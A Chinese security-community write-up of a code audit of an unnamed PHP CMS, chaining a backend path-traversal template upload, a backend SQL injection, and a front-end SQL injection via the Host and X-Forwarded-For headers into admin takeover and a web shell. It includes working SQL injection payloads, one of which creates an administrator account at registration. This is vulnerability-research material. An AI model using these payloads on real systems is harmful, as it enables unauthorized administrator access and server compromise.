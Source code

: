 

# 奇安信攻防社区 -【Web 实战】记一次前台 getshell 组合拳审计的完整过程

### 【Web 实战】记一次前台 getshell 组合拳审计的完整过程

本文内容仅限学习所用，请不要利用文中消息进行危害性测试。为保护此源码使用者的安全，本文中的源码系统名将做打码处理。初学者学习中的小小收获，各位大佬轻喷。1 整体审计 拿到源码，先做...

本文内容仅限学习所用，请不要利用文中消息进行危害性测试。为保护此源码使用者的安全，本文中的源码系统名将做打码处理。

初学者学习中的小小收获，各位大佬轻喷。

# 1 整体审计

拿到源码，先做一次整体审计，看一看整个代码的处理逻辑、是否有过滤控制器、是否有权限校验控制器等。

先看目录：

![image.png](assets/1699416759-c02073fc087a2620638894e3eee43642.png)

很明显有控制器，是模仿 MVC 形式的 CMS。

## 1.1 权限控制

一共有两个入口 index.php admin/index.php（感觉这样写的 CMS 很常见）。

![image.png](assets/1699416759-e8a865bf8989a5c5ff5231e15b18af1b.png)

查看两个文件，发现它们没有什么不同之处，定义了 ROOT，然后进入 APP:run()。除了 admin 文件夹下的 index 文件中定义了一个常量 ADMINDIR。

![image.png](assets/1699416759-b0ecb5ae279c48dd573492b983374009.png)

跟进 APP:run()，这里是整个 CMS 的核心。

![image.png](assets/1699416759-61dc0d1fa34e863d67c3776a839931ad.png)

很常见的路径转方法（伪静态？），如/index.php/\[controller\]/\[action\]/\[arag1\]/\[arg2\]。但由于其控制器分别在 controllers 和 admin/controllers 下，而访问控制脚本的函数使用的是不可控变量，所以不能通过普通控制器入口访问管理员的控制器。

这里还存在一个问题：它引入的时候貌似没有校验权限，是否普通用户可以越权调用 admin 的 controller？

后面看了一下，其中一个类的构造函数处会进行鉴权。那就是看哪些控制器的构造函数没有鉴权 就能造成绕过。总而言之鉴权的地方不是统一的。

又看了一眼 发现是控制器的父类。那就是哪个父类不是这个（这样写的话可能性就会小很多）。后面看了一眼这个类包括了大部分后台 HTML 元素，那理论上所有控制器（除了 API 控制器）都会走这个类。

![image.png](assets/1699416759-a7fee1a9a6958be6cb733a673642d950.png)  
后面又发现，SAdmin 虽然会检测 session，但在 session 无效的时候并不会拦截，而只是会在 session 有效的情况下给 SAdmin->data 赋值。也就是说，具体的权限校验还是要在函数中实现。这给越权提供了空间。

然后发现后面校验权限是按照类似“校验权限字符是否在权限字符串中”的途径。

通过 CheckAccess、CheckAction 实现（这两个校验过程相同）：

![image.png](assets/1699416759-d7971971932fd2da3879e0c749ba9681.png)

同时，admin 的 data 只赋值一次：

![image.png](assets/1699416759-5fd196a8c0422b111d33bfb243442975.png)

除了改数据库之外没办法混淆鉴权了。（也就是说，如果存在注入，有造成后台管理员登陆的可能）

## 1.2 过滤控制

进一步查看控制器文件夹，查看是否有负责整体过滤参数的控制器（SQL、XSS、文件上传等的过滤文件）。

这里的过滤文件为 functions.globals.php。不过这里的过滤函数都不是主动调用的（有些 CMS 会包括此文件 然后此文件中会先一步处理所有参数，这里完全就是写了函数等待调用）

过滤函数这边先实体编码然后加斜杠，应该是绕不了。

![image.png](assets/1699416759-b80e65ced07efcb463aaf96792bc5a7c.png)

引用过滤函数的则是这三个，如果其他地方都是由此处获取请求参数，那就无法造成 SQL 注入。

![image.png](assets/1699416759-95b32812918aaa2f40da46ea27a6a5ec.png)

当然，在 HTTP 交互中会被后端接受的参数远不止 GET、POST 和 Cookie（这里是大多数 CMS 的误区，又不喜欢过滤其他头又喜欢用其他头）。如果其他的头也会在交互中被获取并且没有经过这三个函数，或者某处的 GET、POST 参数没有经过这些过滤，即可造成注入。

# 2 审计漏洞列表

## 2.1 后台文件上传（可 shell）

目录穿越的后台模版文件上传造成的 getshell  
完全没有过滤相对路径 + 需要造成的模版文件后缀白名单造成的 getshell（本来这个目录穿越还有点意义，结果我发现它根本没有限制入口为根目录文件夹 - -，白穿越了）

![image.png](assets/1699416759-2b5c8cc99f4e66f5b2501183e3a2e9f9.png)

![image.png](assets/1699416759-a2f6b41295e80031e43e485da90092b6.png)

## 2.2 后台注入（很鸡肋）

后台数据库管理中的功能。由于被输入的参数使用反引号包裹，而此 CMS 的过滤函数本身不过滤反引号，所以造成注入。  
POC 为[http://localhost/admin/index.php/database/operate?dbaction=emptytable&amp;tablename=hong\\\_acat\`+where+cat\_id=2+and+sleep(2);--%20)#](http://localhost/admin/index.php/database/operate?dbaction=emptytable&amp;tablename=hong%5C_acat%60+where+cat_id=2+and+sleep(2);--%20)#) 注入形式如下，用#号作为注释符即可。实际上，全 database.php 都存在这个漏洞（只要带有\`$database\`）

![image.png](assets/1699416759-94af52019820f40cfd6b7617062246e9.png)

![image.png](assets/1699416759-e31ecaebbe79b67d6f51b50dac1f6fbb.png)

## 2.3 后台目录穿越

大家都爱的没用垃圾洞，甚至不需要后台代码。

![image.png](assets/1699416759-6de0a4c0240bc7bc6d5640c098f32ed8.png)

# 3 柳暗花明的前台注入

找了这么多后台的洞，总而言之还是没什么用的。毕竟对于小 CMS 而言我们都希望使用前台漏洞，高效快速还不用苦苦猜一个管理员口令。于是我开始找前台漏洞。越权我们之前已经看过了是越不了的，RCE 没有条件，信息泄露也没有条件，上传在前台已经测试过了没有绕过可能。那么能找的高危漏洞只剩下注入一个了。

在第一节中我们已经找到了 CMS 的过滤函数并且确定了此过滤无法绕过。现在需要找到的就是那些没有被过滤函数保护且会涉及数据库查询的参数。

接下来则是无聊的看参数时间，由于此 CMS 没有统一过滤，可以直接在控制器的 action 函数中查看输入参数是否经过过滤函数。

## 3.1 代码分析

终于，在注册的地方找到了一个不经过过滤函数的参数：

![image.png](assets/1699416759-fda8d2e8d7bd28095d7c3aecdaa052fe.png)

这个 GetIP() 是没有经过过滤函数的。虽然大多数 CMS 中这个 IP 是不可控的，但笔者属于不是很信邪的那一款。于是跟进 GetIP 函数：

![image.png](assets/1699416759-6637d9b1551da60f10cd20806dcfdf83.png)

这里写成了：先去 X-FORWARDED-FOR、CLIENT-IP 或者 getenv('REMOTE\_ADDR')（这个不可控是环境变量）取 IP，如果这个 IP 不符合格式就返回 gethostbyname($\_SERVER\['HTTP\_HOST'\])，否则是正则表达式过滤之后的 IP。问题就在于 gethostbyname() 并不能取到过滤的作用，于是我们就能将任意字符插入查询参数中，造成注入。

造成注入的条件则是：  
1.存在 X-FORWARDED-FOR 或 CLIENT-IP，且其值不为 IP 形式  
2.HOST 置为 payload

以此格式传入包，果然触发了数据库报错：

![image.png](assets/1699416759-28e36762e345be0ac2b1cf344d29d1d9.png)

## 3.2 使用注入进入后台

此查询语句的原貌是：

```php
"INSERT INTO " . TABLE_PREFIX . "user (groupid, activated, username, password, verifycode, joindate, joinip, lang, nickname, email) VALUES ($groupid, $activated, '$username', '".md5($password)."', '$verifycode', '".time()."', '".GetIP()."', $lang, '$nickname', '$email')"
```

这里的 groupid 就是鉴权的 ID（用户组 ID）。由于这里就是注册点，这个注入可以被改造成这个形式，从而在注册时另外创建一个管理员账号，以此进入后台：

```php
INSERT INTO ***_user (groupid, activated, username, password, verifycode, joindate, joinip, lang, nickname, email) VALUES (2, -1, '111111111', '593c9b4a9390551d53e5cacf28ebd638', '96fbTjrp', '1697167889', '', 1, '111111111', '222@222.22');INSERT INTO ***_session (sessionid, userid, ipaddress, useragent, created, admin) VALUES ('aaa','1','','','','1')#', 1, '111111111', '222@222.22')
```

后面插入的帐号即为管理员账号。则 POC 为：

```php
', 1, '123', '222@222.22'),(1, 1, '111111111', '593c9b4a9390551d53e5cacf28ebd638', '96fbTjrp', '1697167889', '', 1, '111111111', '222@222.22')#
```

这将额外添加一个用户名为 111111111 密码为 111111111111 的帐号。

![image.png](assets/1699416759-a6e6ea57c972ac02f2bf3eb8b4aaa325.png)

使用此账密登陆，成功：

![image.png](assets/1699416759-28e712904c02f65d3d813580235554b5.png)

然后利用之前提到的后台文件上传漏洞，就能够 getshell 愉快玩耍啦~

